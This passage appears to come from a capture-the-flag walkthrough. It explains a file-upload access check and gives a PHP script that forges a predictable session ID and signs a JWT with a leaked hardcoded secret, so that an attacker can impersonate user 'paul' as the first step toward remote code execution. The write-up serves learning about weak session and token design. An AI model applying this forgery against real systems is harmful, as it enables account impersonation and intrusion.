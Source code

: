 `/includes/fileController.php` is checking if requested user is user "paul" or not by __decoding requested session's jwt token__ and __session's username__. If it is equal to "paul" than upload file in `/portal/uploads/` directory. 

![](screenshots/file-control.png)


# Foothold:File_upload_to_RCE

__First,__ generate user "paul" php session id. Because of the length of the user "paul" there are 4 possible session ids and 1/16 chances of login as user "paul".

__Second,__ Generate jwt token for user "paul". This is always same because there only 1 static value in the payload.

Here is php script to generate session ID and jwt token.
```php
<?php

/*
First run "composer require firebase/php-jwt"
*/

require __DIR__ . '/vendor/autoload.php';
use Firebase\JWT\JWT;

$username = "paul";

function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;

}

echo makesession($username) . "\n";

$secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e';

$payload = array(
    "data" => array(
        "username" => $username
));

$jwt = JWT::encode($payload, $secret_key, 'HS256');
echo $jwt . "\n";
```
